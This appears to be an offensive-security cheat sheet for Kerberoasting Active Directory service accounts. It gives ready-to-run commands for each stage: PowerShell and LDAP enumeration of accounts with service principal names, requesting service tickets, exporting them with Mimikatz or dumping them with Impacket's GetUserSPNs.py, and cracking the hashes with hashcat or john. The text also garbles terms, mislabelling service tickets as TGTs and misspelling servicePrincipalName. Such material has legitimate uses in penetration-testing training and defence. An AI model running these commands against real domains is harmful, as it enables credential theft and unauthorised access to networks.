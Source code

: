 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable users in domain

```
Get-NetUser -SPN | select serviceprincipalname    

get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
get-adobject -filter {serviceprincipalname -ne $null} -prop serviceprincipalname

setspn -T <domain> -Q */*
```

Enumerate with LDAP Powershell module

```
$ldapFilter = "(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))";
$domain = New-Object System.DirectoryServices.DirectoryEntry;
$search = New-Object System.DirectoryServices.DirectorySearcher;
$search.SearchRoot = $domain;
$search.PageSize = 1000;
$search.Filter = $ldapFilter;
$search.SearchScope = "Subtree";
$results = $search.FindAll()
$Results = foreach ($result in $results){
$result_entry = $result.GetDirectoryEntry();
$result_entry | Select-Object @{
Name = "Username"; 
Expression = { $_.sAMAccountName }},@{Name = "SPN"; Expression = { $_.servicePrincipalName | Select-Object -First 1 }}}
$Results;
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Enumerate vulnerable accounts. Requires a valid user and password

```
GetUserSPNs.py <domain>/<user>:<pass>            #check user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>    #query the DC
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
